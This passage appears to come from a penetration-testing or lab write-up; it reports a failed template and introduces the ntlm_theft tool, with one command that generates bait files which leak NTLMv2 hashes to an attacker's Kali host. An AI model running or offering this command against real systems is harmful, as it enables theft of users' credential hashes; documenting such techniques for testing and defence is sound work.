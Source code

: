 This template also didn't work for us :

<img src="attachments/cfea039862aaca37e65a78f69e088f7d.png" />

We found a new tool named [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) that can generate multiple types of NTLMv2 hash theft files.

*Usage example :*
```
python3 ntlm_theft.py -g all -s <kali ip> -f Important
```

<img src="attachments/b49598e2ec6017e3807ef96f1d8511c4.png" />
